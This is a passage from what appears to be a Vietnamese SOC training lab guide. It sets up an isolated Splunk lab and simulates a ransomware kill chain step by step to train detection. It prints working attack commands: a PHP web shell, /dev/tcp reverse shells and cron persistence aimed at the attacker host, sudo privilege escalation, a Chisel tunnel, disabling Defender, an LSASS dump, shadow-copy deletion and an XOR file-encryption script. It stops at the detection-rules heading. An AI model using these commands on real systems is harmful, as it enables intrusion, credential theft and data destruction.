






# Tuần 5: Mô Phỏng Kịch Bản Tấn Công và Risk-Based Alerting
> **Kiến trúc mô phỏng chuỗi tấn công đa tầng (Multi-Stage Cyber Kill Chain) kết hợp kỹ thuật phát hiện dựa trên rủi ro (Risk-Based Alerting - RBA), phân tích chi tiết False Positive / False Negative, bằng chứng thực tế từ Splunk và hình ảnh trích xuất từ Lab.**

---

## 1. Tóm tắt kịch bản (Executive Summary và 5W1H)

!!! abstract "Tổng quan kịch bản"

    Kịch bản mô phỏng một cuộc tấn công mạng có chủ đích (Targeted Attack / Ransomware Operation) bắt đầu từ việc khai thác lỗ hổng upload trên ứng dụng web public-facing tại vùng DMZ, chiếm quyền root Linux, thiết lập kênh điều khiển ngầm (Reverse SOCKS5 Tunnel) để vượt qua phân vùng mạng, đánh cắp credential nội bộ, di chuyển ngang (Lateral Movement) sang máy chủ Windows Server 2022, vô hiệu hóa cơ chế phòng thủ Defender, trích xuất bộ nhớ LSASS, phá hủy bản sao lưu phục hồi (Volume Shadow Copies) và tiến hành mã hóa dữ liệu hàng loạt nhằm mục đích tống tiền kép (*Double Extortion*).





*Hình 1.1: Sơ đồ chuỗi tấn công đa tầng (Web Shell -> C2 Tunnel -> Lateral Movement -> Ransomware).* 

### Bảng phân tích 5W1H và Ma trận Chiến thuật

| Hạng mục | Chi tiết phân tích kỹ thuật |
| :--- | :--- |
| **What (Mô tả)** | Chuỗi tấn công hoàn chỉnh: **Initial Access $\rightarrow$ Execution $\rightarrow$ Persistence $\rightarrow$ Privilege Escalation $\rightarrow$ Credential Access $\rightarrow$ Defense Evasion $\rightarrow$ Lateral Movement $\rightarrow$ Impact**. |
| **Why (Mục tiêu)** | Tống tiền kép (*Double Extortion*): Chiếm đoạt dữ liệu máy chủ nội bộ, phá hủy cơ chế khôi phục dự phòng (Volume Shadow Copies) và mã hóa dữ liệu sản xuất. |
| **Who (Chủ thể)** | External Threat Actor / Ransomware Affiliate sử dụng kết hợp công cụ nguồn mở (*Chisel, Procdump, Evil-WinRM*) và kỹ thuật sống dựa vào tài nguyên có sẵn (*LOLBins / GTFOBins*). |
| **Where (Phạm vi)** | Vùng DMZ công khai (Web Server Ubuntu 22.04) $\rightarrow$ Vùng nội bộ Internal Restricted (Windows Server 2022, Active Directory Environment). |
| **When (Thời gian)** | Thời lượng diễn tập: **60 - 90 phút** (Mô phỏng chuỗi Dwell Time thực tế kéo dài từ vài ngày đến vài tuần). |
| **Prerequisites** | Lỗ hổng Upload file không kiểm duyệt, sai sót cấp quyền `sudo` (NOPASSWD GTFOBins), lộ lọt thông tin xác thực trong mã nguồn, Windows chưa bật LSA Protection/Credential Guard. |
| **Monitored Assets** | - `Web-Server-DMZ` (192.168.50.20 / 192.168.100.20 - `uf-ubuntu`)<br>- `Win-Server-Target` (192.168.100.30 - `WIN-I370HR7VSPS`)<br>- `Splunk-SIEM-Core` (192.168.100.10 - `splunk`) |
| **Log Sources** | `web_logs` (Apache access combined), `linux_security` (Linux auditd, auth.log), `windows_security` (EventCode 4624, 4720, 4732, 4688), `windows_sysmon` (EventCode 1, 3, 10, 11), `windows_logs` (Defender EventCode 5001, PowerShell 4104). |

### Bảng Ánh Xạ Chuỗi Tấn Công MITRE ATT&CK Toàn Diện

| STT | MITRE Tactic | MITRE Technique | Hành vi kỹ thuật cụ thể |
| :---: | :--- | :--- | :--- |
| **1** | `TA0001` (Initial Access) | `T1190` - Exploit Public App | Khai thác lỗ hổng Upload trên DVWA tải lên file `shell.php` |
| **2** | `TA0002` (Execution) | `T1505.003` - Web Shell | Gửi HTTP GET `shell.php?cmd=...` kích hoạt Reverse TCP Shell |
| **3** | `TA0003` (Persistence) | `T1053.003` - Cron | Đặt crontab kết nối reverse shell mỗi 5 phút dưới quyền `www-data` |
| **4** | `TA0004` (Privilege Escalation) | `T1548.003` - Sudo GTFOBins | Leo quyền root bằng lệnh `sudo find . -exec /bin/sh` (NOPASSWD) |
| **5** | `TA0006` (Credential Access) | `T1552.001` - Config File | Đọc `config.inc.php` trích xuất thông tin tài khoản dịch vụ `svc_backup` |
| **6** | `TA0011` (Command và Control) | `T1105` + `T1090` - Tool và Tunnel | Tải `chisel` về `/tmp` và mở Reverse SOCKS5 Tunnel |
| **7** | `TA0008` (Lateral Movement) | `T1021.006` - WinRM Remote | Kết nối `evil-winrm` sang Windows Server bằng `svc_backup` |
| **8** | `TA0003` (Persistence) | `T1136.001` - New Account | Tạo tài khoản ngầm `backdoor` và thêm vào `Administrators` |
| **9** | `TA0005` (Defense Evasion) | `T1562.001` - Defender Disable | Tắt Real-time Protection của Windows Defender (`Set-MpPreference`) |
| **10** | `TA0006` (Credential Access) | `T1003.001` - LSASS Dump | Tạo Windows Service chạy `procdump64.exe` dump bộ nhớ `lsass.exe` |
| **11** | `TA0040` (Impact) | `T1490` - Inhibit Recovery | Xóa Volume Shadow Copies qua `vssadmin delete shadows` |
| **12** | `TA0040` (Impact) | `T1486` - Data Encrypted | Chạy script mã hóa hàng loạt file `LabData` sang đuôi `.locked` |

---

## 2. Mô hình Lab và Kiến trúc mạng (Network Topology)

!!! warning "Nguyên tắc cách ly và Định tuyến (Routing Policy)"

    - **Máy tấn công (Kali Attacker)** chỉ kết nối trực tiếp được với máy chủ Web qua dải mạng DMZ (`192.168.50.0/24`).
    - **Không có kết nối trực tiếp** từ Kali đến mạng Internal (`192.168.100.0/24`). Bắt buộc kẻ tấn công phải triển khai kỹ thuật **Network Pivoting và Reverse Tunneling** qua máy chủ Web Server bị chiếm quyền.
    - **Splunk Server** đặt tại mạng quản trị/nội bộ, tiếp nhận log tập trung từ Universal Forwarder (UF) trên tất cả các node thông qua cổng TCP `9997`.





*Hình 1.2: Sơ đồ kiến trúc mạng Lab thực nghiệm kết nối giữa Attacker, Web Server và Target Windows.*

### Danh mục máy ảo (Virtual Machine Matrix)

| Tên máy | Vai trò | Hệ điều hành | Cấu hình IP | Hostname Splunk | RAM | Thành phần cài đặt chính |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| **Kali Attacker** | Máy tấn công | Kali Linux 2025.x | `192.168.50.100` (eth1) | - | 4 GB | Nmap, Chisel, Evil-WinRM, Python3 HTTP |
| **Web Server** | DMZ / Bàn đạp | Ubuntu 22.04 LTS | `192.168.50.20` / `192.168.100.20` | `uf-ubuntu` | 2 GB | Apache2, PHP, DVWA, Auditd, Splunk UF, Socat |
| **Windows Server** | Mục tiêu nội bộ | Windows Server 2022 | `192.168.100.30` | `WIN-I370HR7VSPS` | 4 GB | Active Directory/Local, Sysmon, Splunk UF, WinRM |
| **Splunk Server** | Hệ thống SIEM | Ubuntu 22.04 LTS | `192.168.100.10` | `splunk` | 8 GB | Splunk Enterprise 9.x / Enterprise Security |

---

## 3. Hướng dẫn thiết lập môi trường Lab (Lab Setup và Hardening)

### 3.1 Cấu hình Splunk Server (`192.168.100.10`)

```bash
# 1. Tải và cài đặt Splunk Enterprise
wget -O splunk.deb "https://download.splunk.com/products/splunk/releases/9.x.x/linux/splunk-9.x.x-linux-2.6-amd64.deb"
sudo dpkg -i splunk.deb

# 2. Khởi động và cấu hình nhận kết nối
sudo /opt/splunk/bin/splunk start --accept-license --answer-yes --no-prompt --seed-passwd 'Splunk@Admin2026!'
sudo /opt/splunk/bin/splunk enable boot-start
sudo /opt/splunk/bin/splunk enable listen 9997 -auth admin:'Splunk@Admin2026!'
```

Cấu hình tạo các index chuyên dụng tại `/opt/splunk/etc/system/local/indexes.conf`:

```ini
[web_logs]
homePath = $SPLUNK_DB/web_logs/db
coldPath = $SPLUNK_DB/web_logs/colddb
thawedPath = $SPLUNK_DB/web_logs/thaweddb

[linux_logs]
homePath = $SPLUNK_DB/linux_logs/db
coldPath = $SPLUNK_DB/linux_logs/colddb
thawedPath = $SPLUNK_DB/linux_logs/thaweddb

[linux_security]
homePath = $SPLUNK_DB/linux_security/db
coldPath = $SPLUNK_DB/linux_security/colddb
thawedPath = $SPLUNK_DB/linux_security/thaweddb

[windows_logs]
homePath = $SPLUNK_DB/windows_logs/db
coldPath = $SPLUNK_DB/windows_logs/colddb
thawedPath = $SPLUNK_DB/windows_logs/thaweddb

[windows_security]
homePath = $SPLUNK_DB/windows_security/db
coldPath = $SPLUNK_DB/windows_security/colddb
thawedPath = $SPLUNK_DB/windows_security/thaweddb

[windows_sysmon]
homePath = $SPLUNK_DB/windows_sysmon/db
coldPath = $SPLUNK_DB/windows_sysmon/colddb
thawedPath = $SPLUNK_DB/windows_sysmon/thaweddb
```

```bash
sudo /opt/splunk/bin/splunk restart
```

---

### 3.2 Cấu hình Web Server Linux (`192.168.50.20` / `192.168.100.20`)

```bash
# 1. Cài đặt Web Server và DVWA
sudo apt update && sudo apt install -y apache2 php libapache2-mod-php php-mysqli mysql-server auditd socat git
git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
sudo chown -R www-data:www-data /var/www/html/dvwa

# 2. Cài đặt Auditd Rules giám sát sâu
sudo tee /etc/audit/rules.d/soc-lab.rules <<'EOF'
## Giám sát ghi đè Cronjob (Persistence)
-w /etc/cron.d/ -p wa -k cron_file_write
-w /etc/crontab -p wa -k cron_file_write
-w /var/spool/cron/crontabs/ -p wa -k cron_file_write

## Giám sát thay đổi file cấu hình đặc quyền Sudo
-w /etc/sudoers -p wa -k sudo_change
-w /etc/sudoers.d/ -p wa -k sudo_change

## Giám sát đọc file cấu hình nhạy cảm
-w /var/www/html/dvwa/config/ -p r -k sensitive_config_read

## Giám sát thực thi lệnh và tạo kết nối mạng
-a always,exit -F arch=b64 -S execve -k exec_cmds
-a always,exit -F arch=b64 -S connect -k net_connect
EOF

sudo augenrules --load
sudo systemctl restart auditd

# 3. Tạo cấu hình leo quyền Sudoers (GTFOBins NOPASSWD find)
echo "www-data ALL=(ALL) NOPASSWD: /usr/bin/find" | sudo tee /etc/sudoers.d/lab-misconfig

# 4. Gài thông tin xác thực giả lập vào file config
echo "// LDAP_SVC_ACCOUNT=svc_backup / LDAP_SVC_PASS=P@ssw0rd2026!" | sudo tee -a /var/www/html/dvwa/config/config.inc.php
```

Cấu hình file `/opt/splunkforwarder/etc/system/local/inputs.conf`:

```ini
[monitor:///var/log/apache2/access.log]
disabled = false
index = web_logs
sourcetype = access_combined

[monitor:///var/log/audit/audit.log]
disabled = false
index = linux_security
sourcetype = auditd

[monitor:///var/log/auth.log]
disabled = false
index = linux_security
sourcetype = linux_secure
```

```bash
sudo /opt/splunkforwarder/bin/splunk restart
```

---

### 3.3 Cấu hình Windows Server 2022 (`192.168.100.30`)

```powershell
# 1. Cài đặt Sysmon với SwiftOnSecurity Config
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "C:\Sysmon.zip"
Expand-Archive C:\Sysmon.zip -DestinationPath C:\Sysmon
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" -OutFile "C:\Sysmon\config.xml"
C:\Sysmon\Sysmon64.exe -accepteula -i C:\Sysmon\config.xml

# 2. Bật Advanced Audit Policy (Logon và Process Creation with CommandLine)
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"User Account Management" /success:enable /failure:enable
auditpol /set /subcategory:"Security Group Management" /success:enable /failure:enable
auditpol /set /subcategory:"Process Creation" /success:enable
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f

# 3. Kích hoạt dịch vụ WinRM cho phép quản trị từ xa
Enable-PSRemoting -Force
winrm quickconfig -force

# 4. Khởi tạo tài khoản dịch vụ mục tiêu
$secPass = ConvertTo-SecureString "P@ssw0rd2026!" -AsPlainText -Force
New-LocalUser -Name "svc_backup" -Password $secPass -Description "Internal Backup Service Account"
Add-LocalGroupMember -Group "Administrators" -Member "svc_backup"

# 5. Tạo dữ liệu giả lập nạn nhân (Target Corporate Files)
New-Item -ItemType Directory -Path "C:\Users\Public\LabData" -Force
1..30 | ForEach-Object { 
    Set-Content -Path "C:\Users\Public\LabData\financial_report_$_.txt" -Value "Confidential Company Financial Record #$_ - Strict Internal Use Only"
}
```


Cấu hình file `C:\Program Files\SplunkUniversalForwarder\etc\system\local\inputs.conf`:

```ini
[WinEventLog://Security]
disabled = 0
index = windows_security

[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
index = windows_sysmon

[WinEventLog://System]
disabled = 0
index = windows_logs

[WinEventLog://Microsoft-Windows-PowerShell/Operational]
disabled = 0
index = windows_logs

[WinEventLog://Microsoft-Windows-Windows Defender/Operational]
disabled = 0
index = windows_logs
```

---

### 3.4 Chuẩn bị công cụ trên Kali Attacker (`192.168.50.100`)

```bash
# 1. Cấu hình IP và thư mục công cụ
sudo ip addr add 192.168.50.100/24 dev eth1 2>/dev/null || true
mkdir -p ~/soc_tools && cd ~/soc_tools

# 2. Tải Chisel và ProcDump
wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_linux_amd64.gz -O chisel.gz
gunzip chisel.gz && mv chisel_1.10.0_linux_amd64 chisel && chmod +x chisel
wget https://live.sysinternals.com/procdump64.exe -O procdump64.exe

# 3. Khởi chạy HTTP Server phục vụ tải payload
python3 -m http.server 8000
```


*Hình 3.1: Xác thực cấu hình địa chỉ IP máy tính tấn công Kali Linux.*

*Hình 3.2: Khởi động dịch vụ HTTP Server trên Kali Linux để phát tán payload.*

---

## 4. Chuỗi Tấn Công Chi Tiết và Bằng Chứng Thực Tế (Step-by-Step Attack Execution)



---

### Bước 1: Trinh sát mục tiêu công khai (Reconnaissance)

- **MITRE ATT&CK**: `T1595.002` (Active Scanning: Vulnerability Scanning)
- **Mục tiêu**: Xác định các cổng dịch vụ đang mở, phiên bản máy chủ Web Apache/PHP và các endpoint upload có thể khai thác.
- **Lệnh thực thi trên Kali Linux**:
```bash
nmap -sV -sC -p 80,443 192.168.50.20
nikto -h http://192.168.50.20/dvwa/
```


*Hình 4.1: Quét thăm dò dải mạng DMZ (192.168.50.0/24) bằng công cụ Nmap từ máy Kali Linux.*


*Hình 4.2: Quét chi tiết các cổng dịch vụ đang mở trên máy chủ Web Ubuntu (192.168.50.20).*

---

### Bước 2: Khai thác Upload và Kích hoạt Web Shell RCE (Initial Access và Execution)

- **MITRE ATT&CK**: `T1190` (Exploit Public-Facing App), `T1505.003` (Server Software Component: Web Shell), `T1059.004` (Unix Shell)
- **Mục tiêu**: Vượt qua bộ lọc upload trên DVWA (Security = Low), tải lên `shell.php` và kích hoạt reverse shell tương tác về Kali qua port 4444.


*Hình 4.3: Truy cập giao diện ứng dụng web DVWA trên máy chủ Web DMZ.*


*Hình 4.4: Thiết lập mức độ bảo mật ứng dụng về Low trong cài đặt DVWA.*

1. **Chuẩn bị payload `shell.php`**:
```php
<?php 
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```


*Hình 4.5: Khai thác chức năng tải tệp tải mã độc shell.php lên máy chủ web.*


*Hình 4.6: Kiểm tra đường dẫn lưu trữ tệp tin tại /dvwa/hackable/uploads/shell.php.*

2. **Lắng nghe kết nối trên Kali**:
```bash
nc -lvnp 4444
```


*Hình 4.7: Mở cổng lắng nghe Netcat listener trên cổng TCP 4444 tại Kali Linux.*

3. **Kích hoạt reverse TCP shell qua HTTP GET request**:
```bash
curl -G "http://192.168.50.20/dvwa/hackable/uploads/shell.php"   --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/192.168.50.100/4444 0>&1'"
```


*Hình 4.8: Kích hoạt Reverse TCP Shell thông qua yêu cầu HTTP cURL.*


*Hình 4.9: Tiếp nhận thành công phiên tương tác Reverse Shell dưới danh tính tài khoản www-data.*

---

### Bước 3: Thiết lập duy trì truy cập bằng Cronjob (Persistence)

- **MITRE ATT&CK**: `T1053.003` (Scheduled Task/Job: Cron)
- **Mục tiêu**: Cài đặt cron job tự động kết nối reverse shell về Kali mỗi 5 phút dưới quyền tài khoản `www-data` nhằm duy trì quyền điều khiển ngầm.
- **Lệnh thực thi trên Web Shell**:
```bash
(crontab -l 2>/dev/null; echo "*/5 * * * * bash -i >& /dev/tcp/192.168.50.100/4444 0>&1") | crontab -
```

---

### Bước 4: Leo thang đặc quyền Root qua Sudo GTFOBins (Privilege Escalation)

- **MITRE ATT&CK**: `T1548.003` (Abuse Elevation Control Mechanism: Sudo)
- **Mục tiêu**: Khai thác sai sót trong cấu hình `/etc/sudoers` cho phép tài khoản `www-data` thực thi lệnh `find` với quyền root không cần mật khẩu (`NOPASSWD`).
- **Lệnh thực thi trên Web Shell**:
```bash
sudo -l
sudo /usr/bin/find . -exec /bin/sh \; -quit
```

---

### Bước 5: Thu thập Credential từ file cấu hình nội bộ (Credential Access)

- **MITRE ATT&CK**: `T1552.001` (Unsecured Credentials: Credentials In Files)
- **Mục tiêu**: Khám phá các máy chủ lân cận qua bảng ARP cache (`ip neigh`) và đọc tệp cấu hình web server để trích xuất thông tin tài khoản dịch vụ Active Directory / Windows.
- **Lệnh thực thi dưới quyền Root**:
```bash
ip neigh
cat /var/www/html/dvwa/config/config.inc.php | grep -i "svc_"
# Output: // LDAP_SVC_ACCOUNT=svc_backup / LDAP_SVC_PASS=P@ssw0rd2026!
```


*Hình 4.10: Thu thập thông tin mạng nội bộ và các máy chủ lân cận qua ip neigh.*


*Hình 4.11: Đọc tệp cấu hình config.inc.php trích xuất thông tin đăng nhập của tài khoản dịch vụ svc_backup.*

---

### Bước 6: Mở kênh Reverse SOCKS Tunnel qua Chisel (Defense Evasion và Tunneling)

- **MITRE ATT&CK**: `T1105` (Ingress Tool Transfer), `T1090.001` (Proxy: Internal Proxy)
- **Mục tiêu**: Tải binary `chisel` vào thư mục `/tmp` trên Web Server và thiết lập reverse SOCKS5 proxy về máy Kali để định tuyến lưu lượng vào mạng nội bộ 192.168.100.0/24.

1. **Trên Kali Attacker (Mở Chisel Server)**:
```bash
./chisel server --reverse -p 8080
```


*Hình 4.12: Khởi chạy dịch vụ Chisel Server lắng nghe kết nối ngược trên cổng 8080 tại Kali.*

2. **Trên Web Server (Chạy Chisel Client kết nối ngược)**:
```bash
wget http://192.168.50.100:8000/chisel -O /tmp/chisel
chmod +x /tmp/chisel
/tmp/chisel client 192.168.50.100:8080 R:1080:socks &
```


*Hình 4.13: Tải tệp thực thi Chisel client từ Kali về máy chủ web Ubuntu.*


*Hình 4.14: Thiết lập đường hầm Reverse SOCKS5 Proxy kết nối ngược về Kali.*

---

### Bước 7: Dò quét mạng nội bộ và Port Forwarding (Internal Discovery và Pivoting)

- **MITRE ATT&CK**: `T1046` (Network Service Discovery)
- **Mục tiêu**: Quét kiểm tra cổng WinRM (`5985`) và SMB (`445`) trên máy chủ nội bộ `192.168.100.30`, sau đó dùng `socat` mở port forwarding trên cổng `5555`.

1. **Quét cổng qua proxychains trên Kali**:
```bash
proxychains nmap -sT -Pn -p 5985,445,3389 192.168.100.30
```


*Hình 4.15: Quét cổng máy chủ Windows Server thông qua Proxychains và SOCKS5 tunnel.*

2. **Thiết lập Port Forwarding qua `socat` trên Web Server**:
```bash
socat TCP-LISTEN:5555,fork,reuseaddr TCP:192.168.100.30:5985 &
```


*Hình 4.16: Cấu hình Socat chuyển tiếp lưu lượng cổng WinRM 5985 sang cổng trung gian 5555.*


*Hình 4.17: Kiểm tra kết nối dịch vụ WinRM thông qua cổng chuyển tiếp 5555.*

---

### Bước 8: Di chuyển ngang và Tạo tài khoản quản trị dự phòng (Lateral Movement và Persistence)

- **MITRE ATT&CK**: `T1021.006` (Remote Services: Windows Remote Management), `T1136.001` (Create Account: Local Account)
- **Mục tiêu**: Đăng nhập WinRM vào máy chủ Windows bằng tài khoản `svc_backup`, kiểm tra đặc quyền và tạo tài khoản local backdoor thêm vào nhóm `Administrators`.

1. **Kết nối Evil-WinRM từ Kali**:
```bash
evil-winrm -i 192.168.50.20 -u svc_backup -p 'P@ssw0rd2026!' -P 5555
```


*Hình 4.18: Đăng nhập từ xa thành công vào Windows Server qua Evil-WinRM với tài khoản svc_backup.*


*Hình 4.19: Xác nhận danh tính máy chủ Windows Server (WIN-I370HR7VSPS và IP 192.168.100.30).*


*Hình 4.20: Kiểm tra đặc quyền tài khoản và quyền hạn thành viên nhóm Administrators.*

2. **Thực thi trên Remote PowerShell**:
```powershell
net user backdoor P@ssw0rd123! /add
net localgroup Administrators backdoor /add
```


*Hình 4.21: Tạo tài khoản ngầm backdoor và thêm vào nhóm quản trị viên cục bộ.*

---

### Bước 9: Tắt cơ chế phòng thủ và Trích xuất bộ nhớ LSASS (Defense Evasion và Cred Dump)

- **MITRE ATT&CK**: `T1562.001` (Impair Defenses: Disable or Modify Tools), `T1003.001` (OS Credential Dumping: LSASS Memory)
- **Mục tiêu**: Tắt tính năng Realtime Protection của Windows Defender và tạo Windows Service để chạy `procdump64.exe` trích xuất bộ nhớ `lsass.exe` dưới quyền `NT AUTHORITY\SYSTEM`.

```powershell
# 1. Tắt cơ chế quét thời gian thực của Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true

# 2. Tải ProcDump từ máy chủ Kali
Invoke-WebRequest -Uri "http://192.168.50.100:8000/procdump64.exe" -OutFile "C:\Windows\Temp\procdump64.exe"

# 3. Tạo và kích hoạt Service dump LSASS
sc.exe create DumpService binPath= "cmd /c C:\Windows\Temp\procdump64.exe -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp" type= own
sc.exe start DumpService
```


*Hình 4.22: Vô hiệu hóa Microsoft Defender và tạo dịch vụ trích xuất bộ nhớ tiến trình LSASS.*

---

### Bước 10: Phá hủy Volume Shadow Copies và Mô phỏng mã hóa tống tiền (Impact)

- **MITRE ATT&CK**: `T1490` (Inhibit System Recovery), `T1486` (Data Encrypted for Impact)
- **Mục tiêu**: Xóa toàn bộ điểm khôi phục hệ thống (VSS) nhằm triệt tiêu khả năng cứu dữ liệu, sau đó thực thi script PowerShell mã hóa toàn bộ file trong `C:\Users\Public\LabData` bằng thuật toán XOR byte và đổi phần mở rộng thành `.locked`.


*Hình 4.23: Khởi tạo thư mục C:\Users\Public\LabData chứa 30 tệp dữ liệu giả lập phục vụ kịch bản mã hóa.*


*Hình 4.24: Trạng thái nguyên vẹn của 30 tệp tin dữ liệu trước khi thực thi script mã hóa.*

```powershell
# 1. Xóa sạch Volume Shadow Copies
vssadmin delete shadows /all /quiet

# 2. Thực thi mã hóa tống tiền mô phỏng (XOR Byte Encryption)
$key = 0xAB
Get-ChildItem -Path "C:\Users\Public\LabData" -Recurse -File | ForEach-Object {
    $bytes = [System.IO.File]::ReadAllBytes($_.FullName)
    $enc = [byte[]]($bytes | ForEach-Object { $_ -bxor $key })
    [System.IO.File]::WriteAllBytes("$($_.FullName).locked", $enc)
    Remove-Item -Path $_.FullName -Force
}
```


*Hình 4.25: Toàn bộ tệp tin trong thư mục dữ liệu bị mã hóa và đổi phần mở rộng thành .locked.*

---

## 5. Bộ Quy Tắc Phát Hiện Splunk SIEM Chuẩn Hóa (16 Production Detection Rules)

!!! tip "Kiến Trúc Đường Ống Phát Hiện (Pipeline Detection) và Kiểm Chứng Thực Nghiệm"
